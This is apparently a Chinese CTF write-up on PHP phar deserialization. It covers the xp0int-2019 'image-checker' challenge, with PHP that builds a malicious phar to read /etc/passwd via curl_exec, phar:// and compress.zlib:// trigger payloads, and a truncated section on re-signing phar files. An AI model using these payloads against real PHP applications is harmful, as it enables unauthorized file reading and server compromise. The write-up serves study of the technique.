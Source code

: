 ```php
system("mv asdf.phar asdf.gif");
?>
```

`function.php`中通过`$filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg";`对文件进行重命名,`$_SERVER['REMOTE_ADDR']`为`172.18.0.1`,`$_FILES["file"]["name"]`为`asdf.gif`

得到的md5为`337def6af3af5b39784016d8a5e06f8c`,最终的文件名为`337def6af3af5b39784016d8a5e06f8c.jpg`

payload`file.php?file=phar://upload/337def6af3af5b39784016d8a5e06f8c.jpg`

---

[xp0int-2019-ctf-web/image-checker](https://github.com/mi3aka/xp0int-2019-ctf-web/tree/master/image-checker)

从`class.php`可以得知存在`curl_exec`,可以使用`file://`协议来进行文件读取

从题目主页面和`imagesize.php`文件名推测其使用了`getimagesize`函数,可以利用phar反序列漏洞

题目要生成的phar文件

```php
<?php
class CurlClass
{
}
class MainClass
{
    public function __construct($path)
    {
        $this->call = "httpGet";
        $this->arg = "file://" . $path;
    }
}
$phar = new Phar("asdf.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置存根stub
$test = new MainClass('/etc/passwd');
$test->name = 'asdfgh';
$phar->setMetadata($test); //将自定义的meta-data序列化后存入manifest
$phar->addFromString("test.jpeg", "asdfghjkl"); //phar本质上是对文件的压缩所以要添加要压缩的文件
$phar->stopBuffering();
```

将phar文件修改为jpeg文件,上传即可

在check image size中传入`compress.zlib://phar://uploads/487dfa0355.jpeg/test.jpeg`即可

### phar包内容篡改/重新签名

```php
<?php

class DemoA
{
    public $a;

    public function __destruct()
    {
        echo $this->a . "DemoA" . "<br>";
    }
}

class DemoB
{
    public $a;

```
